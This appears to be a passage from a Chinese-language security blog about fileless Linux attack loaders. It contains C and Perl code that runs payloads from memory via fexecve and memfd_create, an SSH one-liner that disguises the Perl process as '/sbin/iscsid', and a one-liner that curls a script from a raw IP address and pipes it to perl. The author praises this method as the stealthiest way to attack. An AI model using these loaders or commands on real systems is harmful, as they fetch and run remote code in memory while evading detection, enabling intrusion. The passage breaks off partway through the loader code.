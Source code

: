 ```c
  while (1) {
      if ((read (s, buf, 1024) ) <= 0) break;
      write (fd, buf, 1024);
    }
  close (s);
  
  if (fexecve (fd, args, environ) < 0) exit (1);

  return 0;
    
}
```

待测试



#### 1.1.2 Python落地加载器

https://www.cnblogs.com/LittleHann/p/12049910.html#_label3_4_1_3

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/image-20211202151648960.png)

#### 1.1.3 Perl无文件加载器

https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html

```shell
cat ./elfload.pl | ssh user@target /bin/bash -c '"exec -a /sbin/iscsid perl"'
```

相对来说，三种姿势里面这种方式的无文件攻击隐蔽性最高。但是并不是每个人都对perl很熟，因此我研究了一下，实现了几种其他脚本语言的无文件攻击器。用它可以实现加载ELF、运行自定义命令。

## 2 Perl

perl版的代码最早来源于@magisterquis，国内不少关于这篇代码的分析都抄自”逢魔安全实验室“的分析。

https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html

实际上这份代码是目前最纯粹的无文件Linux攻击方案，代码非常之经典。它摆脱了加载器落地的问题，实现了真正的无文件。

### 无文件一句话

```shell
curl https://213.12.122.13:46379/py2e21ms20sm023sd320/core.pl|perl
```

### 服务器端部署

远程服务器上的待加载文件代码由三部分组成

**第一部分**

```shell
cat >> elfload.pl <<EOF
#!/usr/bin/env perl
use warnings;
use strict;

$l=1;
# Open a memory-backed file
print "Marking anonymous file...";
my $name = "";
my $fd = syscall(319,$name,1);
if (-1 == $fd) {
    die "memfd_create: $!";
}
print "fd $fd";

```